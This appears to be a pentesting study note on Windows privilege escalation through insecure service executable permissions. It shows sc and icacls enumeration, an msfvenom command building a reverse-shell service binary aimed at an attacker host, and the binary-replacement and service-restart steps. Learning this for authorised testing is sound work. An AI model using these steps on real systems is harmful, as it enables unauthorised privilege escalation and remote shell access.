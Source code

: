 # Abusing Service Misconfigurations
Windows services are managed by the Service Control Manager (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

Each service on a windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.
To better understand the structure of a service we can use `sc qc SERVICE` to check it.
Here we can see that the associated executable is specified through the `BINARY_PATH_NAME` and the account used to run the service is shown on the `SERVICE_START_NAME` parameter.

Services have a Discretionary Access Control List (DACL), which indicates who has permissions to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges. The DACL can be seen from [[Process Hacker]]. 
All of the services configurations are stored on the registry under 
```
HKLM\SYSTEM\CurrentControlSet\Services\
```
We can check it with the **Registry Editor** app. A subkey exists for every service in the system. Here we can again see, values for things like the executable path as well as the account that the program will be ran as. If a DACL has been configured for the service, it will be stored in a subkey called **Security**. And yes, only administrators can modify such registry entries by default.
## Insecure Permission on Service Executable
If the executable associated with a service has weak permissions that allow an attacker to modify or replace it, the attacker can gain the privileges of the service's account with relative ease.
To do this we can first query a service configuration using `sc`
```
sc qc SERVICE
```
Then using the path found on the **BINARY_PATH_NAME** check it for permissions using `icacls`
```
icacls c:\path\path\service.exe
```
Which will result in a list of permissions for different groups. What is mainly of our concern is both the `(F)` and `(M)` permissions to indicate that it is overwritable. We can then try to use [[Metasploit#Msfvenom|Msfvenom]] to craft a payload to gain a reverse shell like so
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_PORT LPORT=PORT -f exe-service -o rev-svc.exe
```
and then download the payload using something like a python server and `wget`

Once we have the payload in the windows server, we proceed to replace the service executable with our payload and change the permission so other users can execute the payload. Also, good practice to not remove the original payload if we mess up, we can instead do something like `move service.exe service.exe.bkp`. And then to change permissions 
```
icacls service.exe /grant Everyone:F
```
Finally we just need to start a listener service on our part. And restart the service so the executable can do it's job
```
sc stop SERVICE
sc start SERVICE
```
(if done in PowerShell, we need to use `sc.exe` as PowerShell uses `sc` as an alias to `Set-Content`)
